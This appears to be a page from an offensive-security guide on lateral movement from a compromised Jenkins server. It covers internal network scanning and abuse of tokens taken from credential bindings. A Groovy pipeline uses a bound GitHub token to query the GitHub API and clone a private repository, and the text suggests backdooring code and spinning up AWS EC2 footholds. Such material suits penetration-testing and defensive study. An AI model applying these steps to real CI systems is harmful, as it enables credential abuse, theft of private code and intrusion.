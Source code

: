 # Lateral Movement

## Internal Network Scan
- When Jenkins is deployed on premise, it has to potential to reach multiple corporate services and endpoints
- When Jenkins is deployed in cloud, it is reachable to limited on premise corporate services through direct connect.
- Therefore, it is worth performing a network scan to find the reachable services, enumerate ports and see if we can exploit any of the services in corp environment.
- We can also use build logs to find if any such corp environment is accessed through analyzing build logs.

## Enumerating services with access tokens from credential bindings
- If we are successful in dumping tokens or reusing tokens in credentials bindings, we should review what kind of privileges that token hold and what we can do with it.
- For our understanding, let us take an example of github access token.
  - We can try to enumerate various services the token has privileges to perform.
  - So imagine you have access to an admin level personal access token, then there a whole world of possibilites - Dump credentials, backdoor code, etc
  - We can also have access to private repositories and we can view the cloned contents in the workspace :) 
``` Groovy
pipeline{
    agent any
    stages{
        stage('Recon with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                    curl -s -L \
                        -H "Accept: application/vnd.github+json" \
                        -H "Authorization: Bearer $TOKEN"\
                        -H "X-GitHub-Api-Version: 2022-11-28" \
                        https://api.github.com/user
                    '''
                }
            }
        }
        stage('Clone a private repo with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                        git clone https://dibsy:$TOKEN@github.com/dibsy/a-temp-private-repo.git
                    '''
                }
            }
        }
    }
}
```

<img src="lateral-api.png">
          
<img src="lateral-private.png">

## Creating resources with with access tokens from credential bindings
- Similarly like Github, we can try to enumerate services with the AWS Access Token
- If we have enough privileges, we can create new AWS services with the AWS tokens - For example create an ec2 with remote ssh privileges.
- This will not only help in moving laterally, we can use this as foothold to carry out attacks ( where we can install many tools )

## Executing groovy console commands via dumped jenkins-api token.

